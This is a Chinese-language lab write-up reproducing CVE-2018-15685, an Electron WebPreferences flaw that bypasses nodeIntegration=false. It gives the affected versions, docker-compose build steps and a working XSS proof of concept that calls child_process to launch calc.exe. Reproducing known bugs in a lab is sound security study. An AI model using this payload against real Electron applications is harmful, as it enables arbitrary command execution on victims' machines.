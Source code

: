 # CVE-2018-15685 Electron WebPreferences 远程命令执行漏洞

### 一、漏洞简介

Electron在设置了nodeIntegration=false的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

### 二、漏洞影响

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

### 三、复现过程

编译APP

执行如下命令编译一个包含漏洞的应用：


```
docker-compose run -e PLATFORM=win64 --rm electron
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：win64、win32、mac、linux。

编译完成后，再执行如下命令，启动web服务：


```
docker-compose run --rm -p 8080:80 web
```

此时，访问`http://url:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

**漏洞复现**

在本地打开应用：

![](images/15890064613688.png)


点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交``，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：


```bash
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

可见，calc.exe已成功弹出：

![](images/15890064890732.png)


参考链接

https://vulhub.org/#/environments/electron/CVE-2018-15685/